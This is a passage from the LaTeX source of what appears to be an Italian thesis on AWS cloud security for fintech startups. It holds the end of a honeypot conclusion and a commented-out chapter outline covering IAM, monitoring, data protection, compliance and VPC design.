    \item \textbf{Condivisione dell'intelligence}: Contribuire (in modo anonimizzato, se possibile) ai dati raccolti alle piattaforme di threat intelligence per migliorare la sicurezza della comunità.
    \item \textbf{Integrazione con SOAR}: Automatizzare le risposte agli alert generati dall'honeypot (es. blocco IP a livello di WAF/NACL) tramite piattaforme SOAR (Security Orchestration, Automation and Response).
\end{itemize}

In conclusione, l'honeypot AWS rappresenta un investimento strategico e tecnicamente fattibile per una startup fintech, migliorando la visibilità sulle minacce e rafforzando la postura di sicurezza complessiva a fronte di un costo gestibile, specialmente se confrontato con i potenziali danni di un incidente di sicurezza.
% \chapter{Fondamenti di Sicurezza su AWS}
% \section{Modello di responsabilità condivisa di AWS}
% \section{Best practice di sicurezza specifiche per startup fintech}
% \section{Panoramica dei principali servizi di sicurezza di AWS}
% \subsection{AWS Identity and Access Management (IAM)}
% \subsection{AWS Key Management Service (KMS)}
% \subsection{AWS CloudTrail e Amazon CloudWatch (servizi concorrenti)}
% \subsection{AWS GuardDuty, Amazon Inspector e Amazon Macie (alternativa valida)}
% \subsection{Altri servizi rilevanti (es. AWS WAF, VPC)}

% \chapter{Gestione delle Identità e degli Accessi (IAM)}
% \section{Implementazione del principio del minimo privilegio}
% \section{Creazione e gestione di utenti, gruppi e ruoli IAM}
% \section{Utilizzo di policy IAM per concedere permessi granulari}
% \section{Configurazione dell'autenticazione a più fattori (MFA)}
% \section{Gestione delle credenziali (es. utilizzo di IAM Roles per EC2)}
% \section{Audit e monitoraggio degli accessi IAM}

% \chapter{Monitoraggio e Logging della Sicurezza}
% \section{Configurazione di AWS CloudTrail per tracciare le attività degli utenti}
% \section{Implementazione di Amazon CloudWatch per monitorare le metriche di sistema}
% \section{Creazione di allarmi per eventi specifici e attività sospette}
% \section{Utilizzo di AWS GuardDuty per il rilevamento automatico di minacce}
% \section{Integrazione con sistemi SIEM (Security Information and Event Management)}
% \section{Gestione e analisi dei log}

% \chapter{Protezione dei Dati Sensibili e Conformità Normativa}
% \section{Crittografia dei dati a riposo e in transito}
% \section{Gestione delle chiavi di crittografia con AWS KMS o CloudHSM}
% \section{Implementazione di meccanismi per la protezione dei dati in S3}
% \section{Misure per la conformità a PCI DSS (se rilevante)}
% \section{Misure per la conformità al GDPR e protezione dei dati personali}
% \section{Valutazione e gestione del rischio di perdita di dati}

% \chapter{Casi Studio e Implementazione Pratica}
% \section{Esempio di architettura di sicurezza AWS per una startup fintech (proposta)}
% \section{Implementazione delle best practice descritte nei capitoli precedenti}
% \section{Test di penetrazione e valutazione della sicurezza dell'ambiente}
% \section{Analisi dei risultati e confronto con le best practice}
% \section{Integrazione di strumenti di sicurezza terzi (es. SentinelOne)}
% \section{Infrastruttura di base AWS, integrazione codice e infrastruttura di un sistema honeypot}
% \section{Deadcode per confondere malware (Capitolo 7)}
% \section{Autenticazione con chiavi pubbliche (Capitolo 8)}
% \section{Progettazione e implementazione di una Virtual Private Cloud (VPC) isolata}
% \subsection{Creazione di subnet pubbliche e private}
% \subsection{Utilizzo di gruppi di sicurezza e ACL per controllare il traffico di rete}
% \subsection{Implementazione di Network Address Translation (NAT) e VPN/Direct Connect}
% \subsection{Configurazione di load balancer per alta disponibilità e scalabilità}
% \subsection{Utilizzo di container (es. ECS o EKS) per una maggiore sicurezza e scalabilità}

% \chapter{Discussione e Conclusioni}
% \section{Rielaborazione delle domande di ricerca iniziali e discussione dei risultati}
% \section{Riflessioni sulle sfide e opportunità per la sicurezza di AWS nelle startup fintech}
% \section{Prospettive future per la ricerca e l'innovazione}
% \section{Raccomandazioni per la creazione di un modello di cybersecurity resiliente per startup fintech}


%
%			BIBLIOGRAFIA
\printbibliography
% 
\end{document}
